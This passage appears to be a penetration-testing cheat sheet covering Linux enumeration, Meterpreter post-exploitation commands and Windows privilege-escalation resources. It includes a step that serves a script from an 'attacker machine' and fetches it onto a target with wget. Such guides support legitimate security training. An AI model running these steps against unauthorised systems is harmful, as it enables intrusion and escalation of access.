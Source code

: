 ```bash
ps aux
top
crontab -l
cat /etc/crontab
```

**AUTOMATED TOOL FOR LINUX ENUM**.

GitHub repo: https://github.com/rebootuser/LinEnum

TRANSFER AUTOMATED SCRIPT TO THE TARGET USING THE BELOW COMMANDS:

```bash
# ATTACKER MACHINE
python2 -m SimpleHTTPServer
python3 -m http.server

# TARGET MACHINE
wget http://<ip>/<pathToFile>
```

<h1 id=M>Meterpreter Commands/MsfConsole Modules</h1>

METERPRETER COMMANDS

```bash
sysinfo

getuid
getprivs 

ps
pgrep <processName>   #to get PID
migrate <PID>

ifconfig
netstat
route
arp
```

MSFCONSOLE POST MODULES CAN BE USED FOR POST EXPLOITATION ENUMERATION

```bash
msfconsole> search type:post platform:<windows/linux> gather
```

<h1 id='PE'>Privilege Escalation</h1>

<h2 id='WPE'>Windows PrivEsc</h2>

**Manual:**

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

https://github.com/SecWiki/windows-kernel-exploits

**Automated**:
